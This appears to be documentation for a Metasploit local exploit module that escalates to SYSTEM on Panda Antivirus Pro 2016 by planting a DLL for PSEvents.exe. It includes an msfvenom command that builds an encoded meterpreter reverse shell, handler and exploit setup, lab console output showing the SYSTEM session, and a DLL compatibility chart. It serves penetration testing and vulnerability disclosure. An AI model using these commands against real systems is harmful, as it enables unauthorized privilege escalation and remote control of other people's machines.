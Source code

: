 ## Vulnerable Application

  Panda Antivirus Pro 2016 16.1.2 is available from [filehippo](http://filehippo.com/download_panda_antivirus_pro_2017/download/b436969174c5ca07a27a0aedf6456c89/) or from an unofficial [git](https://github.com/h00die/MSF-Testing-Scripts/blob/master/Panda_AV_Pro2016_16.1.2.exe).

  The AV must be running for PSEvents.exe to run and the module to get called, which can take up to an hour.  I 32bit meterpreter seems to get caught, so you may need an AV exclusion for the folder to ensure it didn't catch meterpreter in action.

  The downloads folder can take a 10-15 minutes to appear after install, and its downloaded by Panda AV from the company.

  1. Theres an HTTP GET request to 23.215.132.154 for /retail/psprofiler/40032/psprofiler_suite.exe
  2. Then right after HTTP GET request to 23.215.132.154 for /retail/psevents_suite.exe.

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Wait for `C:\\ProgramData\\Panda Security\\Panda Devices Agent\\Downloads` folder to appear
  3. Start msfconsole
  4. Get a shell
  5. Do: `use exploit/windows/local/panda_psevents`
  6. Do: `set session #`
  7. Do: `exploit`
  8. Go do something else while you wait
  9. Enjoy being system with your shell

## Options

  **DLL**

  Which DLL to name our payload.  The original vulnerability writeup utilized bcryptPrimitives.dll, and mentioned several others that could be used.  However the dll seems to be VERY picky.  Default is cryptnet.dll.  See the chart for more details.
  
|                                           | WINHTTP.dll | VERSION.dll | bcryptPrimitives.dll | CRYPTBASE.dll | cryptnet.dll | WININET.dll |
|---------------------------------------------------------------|-------------|-------------|----------------------|---------------|--------------|-------------|
| 64bit target (1), win10 x64 | CRASH | CRASH | NO |  NO       | valid     |    no |
| 64bit target (1), win8.1 x86 | CRASH | CRASH | NO |  valid     | valid     |    no |
| 32bit target (0), win10 x64 | CRASH | CRASH | NO | NO        | valid     |    no |
| 32bit target (0), win8.1 x86 | CRASH | CRASH | NO |  valid     | valid (caught by av)     |    no |
| 32bit target (0), win7sp1 x86 |  |  | valid |       | valid (caught by av)     |     |

In this chart, `CRASH` means PSEvents.exe crashed on the system.  `NO` means PSEvents didn't crash, but no session was obtained.  `valid` means we got a shell.
  
  **ListenerTimeout**
  
  How long to wait for a shell.  PSEvents.exe runs every hour or so, so the default is 3610 (10sec to account for code execution or other things)

## Scenarios

### Windows 8.1 x86 with Panda Antirivus Pro 2016 16.1.2

  Step 1, get a local shell.  I used msfvenom to drop an exe for easy user level meterpreter.
  
    msfvenom -a x86 --platform windows -p windows/meterpreter_reverse_tcp -f exe -o meterpreter.exe -e x86/shikata_ga_nai -i 1 LHOST=192.168.2.117 LPORT=4449
    
    msf > use exploit/multi/handler 
    msf exploit(handler) > set payload windows/meterpreter_reverse_tcp 
    payload => windows/meterpreter_reverse_tcp
    msf exploit(handler) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(handler) > set lport 4449
    lport => 4449
    msf exploit(handler) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4449 
    [*] Starting the payload handler...
    [*] Meterpreter session 1 opened (192.168.2.117:4449 -> 192.168.2.91:63617) at 2016-09-25 20:32:15 -0400
    
    meterpreter > getuid
    Server username: IE11Win8_1\IEUser
    meterpreter > background
    [*] Backgrounding session 1...

  Step 2, drop our panda exploit

    use exploit/windows/local/panda_psevents
    msf exploit(panda_psevents) > set session 1
    session => 1
    msf exploit(panda_psevents) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(panda_psevents) > set exitfunc seh
    exitfunc => seh
    msf exploit(panda_psevents) > set DLL CRYPTBASE.dll
    DLL => CRYPTBASE.dll
    msf exploit(panda_psevents) > show options
    
    Module options (exploit/windows/local/panda_psevents):
    
       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       DLL              CRYPTBASE.dll    yes       dll to create (Accepted: cryptnet.dll, bcryptPrimitives.dll, CRYPTBASE.dll)
       ListenerTimeout  3610             yes       Number of seconds to wait for the exploit
       SESSION          1                yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  seh              yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.2.117    yes       The listen address
       LPORT     4450             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows x86
    
    
    
    msf exploit(panda_psevents) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4450 
    [*] Uploading the Payload DLL to the filesystem...
    [*] Starting the payload handler, waiting for PSEvents.exe to process folder (up to an hour)...
    [*] Start Time: 2016-09-27 18:10:21 -0400
    [*] Sending stage (957999 bytes) to 192.168.2.91
    [*] Meterpreter session 2 opened (192.168.2.117:4450 -> 192.168.2.91:50022) at 2016-09-27 18:46:15 -0400
    [+] Deleted C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\CRYPTBASE.dll
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > sysinfo
    Computer        : IE11WIN8_1
    OS              : Windows 8.1 (Build 9600).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/win32
    meterpreter > background

## Failed Exploitation Attempts

If the dll doesn't work, PSEvents.exe will fail to run.  While silent to the user, an error will occur in the Application Windows Logs.

 * Event ID: 1000
 * Task Category (100)
 * Log Name: Application
 * Source: Application Error
 * Details:
```
Faulting application name: PSEvents.exe, version: 4.0.0.35, time stamp: 0x57061ba6
Faulting module name: ntdll.dll, version: 6.3.9600.17415, time stamp: 0x54504b06
Exception code: 0xc0000374
Fault offset: 0x000d0cf2
Faulting process id: 0xdd0
Faulting application start time: 0x01d218a30fbf1ac5
Faulting application path: C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\PSEvents.exe
Faulting module path: C:\Windows\SYSTEM32\ntdll.dll
Report Id: 4de7a07e-8496-11e6-9735-000c29e0cffb
Faulting package full name: 
Faulting package-relative application ID:
```